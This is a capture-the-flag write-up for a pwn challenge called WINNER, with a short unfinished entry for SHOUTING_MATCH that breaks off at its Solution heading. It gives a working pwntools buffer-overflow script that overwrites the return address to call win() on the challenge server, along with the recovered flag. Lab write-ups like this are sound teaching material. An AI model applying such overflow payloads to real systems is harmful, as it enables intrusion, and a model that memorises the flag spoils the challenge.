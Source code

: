 ## WINNER
### Materials
hint: "can you run the win function?, remote: pwn.kibsecctf.xfer.hr 1338"<br>
files: winner.zip

### Solution
First what we need to do is find the address of win function. Start _winner_ program with gdb or pwndbg and do ``` info functions ``` and we get that function _win()_ is at ```0x4018b5```. Next we have to find to which address program returns from the function _func()_. This is simple enough, using ```disas func``` gives information about the return address, which is ```0x401983```. All that is left to do is craft the payload and get the flag.<br>Payload:
```
from pwn import *
p = remote('pwn.kibsecctf.xfer.hr', 1338)

win_addr = 0x4018b5

payload = b"A" * 40           # fill buffer + saved rbp
payload += p64(win_addr)      # overwrite RIP

p.sendline(b"yes")
p.sendline(payload)
p.interactive()
```
Which returns the flag:<br>
**KibSec{mais_ma_meilleure_ennemie_cest_pwn}**

## SHOUTING_MATCH
### Materials
hint:"rop."<br>
files: shouting_match.zip

### Solution

